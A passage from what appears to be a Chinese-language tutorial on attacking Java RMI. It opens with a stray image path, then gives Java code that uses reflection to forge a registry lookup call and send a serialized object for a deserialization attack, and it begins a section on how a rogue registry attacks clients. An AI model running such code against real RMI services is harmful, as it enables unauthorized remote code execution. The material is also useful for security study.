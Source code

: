 ```java
        Registry registry = LocateRegistry.getRegistry("localhost", 3333);

        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

        //获取operations

        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);


        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(r);
        ref.invoke(var2);
    }
}
```

![Demo2结果](./images/47.png)

## 攻击客户端
### 注册中心攻击客户端
在通信过程中, `RMI`与注册中心以及服务端进行了交互, 我们可以对这两者做手脚, 从而达到攻击客户端的目的. 对于注册中心来说, 还是从之前的五个方法触发:
 - bind
 - unbind
 - rebind
 - list
 - lookup
